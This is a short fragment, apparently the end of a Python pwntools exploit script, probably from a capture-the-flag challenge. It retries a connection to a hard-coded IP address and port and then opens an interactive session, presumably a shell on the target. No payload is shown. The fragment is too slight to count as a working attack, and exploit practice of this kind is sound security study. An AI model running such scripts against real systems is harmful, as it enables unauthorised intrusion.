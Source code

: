 ```python
            print("[+] yes!!!")
            raw_input()
            io.sendline("")
            #sla("host name: ",'')
    except:
        io.close()
        io = remote("20.247.110.192",10888)
        #io = remote("127.0.0.1",8000)

io.interactive()
```
